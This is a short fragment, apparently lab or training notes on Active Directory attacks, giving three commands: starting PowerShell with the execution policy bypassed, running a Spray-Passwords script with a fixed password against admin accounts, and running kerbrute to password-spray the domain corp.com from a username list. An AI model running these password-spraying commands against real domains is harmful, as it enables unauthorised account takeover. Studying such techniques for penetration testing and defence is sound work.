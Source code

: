 powershell -ep bypass
<br>
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
<br> <br>

.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
